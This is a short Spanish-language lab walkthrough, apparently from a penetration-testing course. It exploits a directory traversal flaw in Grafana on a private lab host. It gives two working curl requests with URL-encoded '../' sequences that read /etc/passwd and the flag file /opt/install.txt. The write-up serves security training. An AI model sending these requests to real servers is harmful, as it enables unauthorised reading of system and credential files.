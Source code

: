 # Walk: Codificacion de caracteres para explotar Directory traversal 

## Fecha: 18/01/2025
## Host: Ubuntu
## IP: 192.168.192.16

---

## Objetivo
**Grafana is running on port 3000** on VM #2. The version running is vulnerable to the same 
directory traversal vulnerability as in the previous section. While URL encoding is not 
needed to perform a successful directory traversal attack, **experiment with URL encoding different characters** 
of your request to display the contents of /etc/passwd. Once you have a 
working request utilizing URL encoding, obtain the flag by displaying the contents of /opt/install.txt.



---
## Herramientas
1. curl 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: Desplegamos /etc/passwd:
	- **curl -i http://192.168.192.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd**
	- Resultado positivo
2. Paso 2: Desplegamos el flag:
	- **curl -i http://192.168.192.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/install.txt**
	- Resultado positivo
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

